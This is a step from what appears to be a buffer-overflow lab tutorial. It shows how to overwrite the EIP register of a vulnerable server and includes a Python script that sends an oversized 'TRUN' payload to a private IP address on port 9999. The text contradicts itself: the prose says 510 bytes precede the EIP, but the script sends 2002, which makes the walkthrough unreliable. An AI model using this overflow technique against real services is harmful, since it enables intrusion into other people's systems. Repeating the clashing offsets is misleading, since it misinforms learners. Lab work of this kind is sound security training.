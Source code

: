 # Overwriting the EIP

In the previous step, we successfully overflowed the buffer, which means that we have control over the data that will overwrite the `EIP` (Extended Instruction Pointer).

To proceed with overwriting the `EIP`, we need to consider that there are `510` bytes preceding the `EIP`. Therefore, we will send `510` bytes filled with 'A' characters to reach the `EIP`, followed by `4` bytes filled with 'B' characters to overwrite the `EIP`.

<img alt="" class="bg hc hd c" width="1000" height="620" loading="lazy" role="presentation" src="https://i.ibb.co/5YVvYKk/4-Overwrite-EIP.png"></img>

```python
#!/bin/python

import sys
import socket
from time import sleep

shellcode = "A"* 2002 + "B"* 4
try:
      s = socket.socket(socket.AF_INET,socket.SOCK_STREAM)
      s.connect(('192.168.40.135',9999))
      s.send(('TRUN / .:/' + shellcode))
      s.close()
except:
      print "Error connecting to server"
      sys.exit()                  
```                                   
                                        
 The `EBP` (Extended Base Pointer) was filled with 'A's `(41414141)`, and the `EIP` was filled with 'B's `(42424242)`.
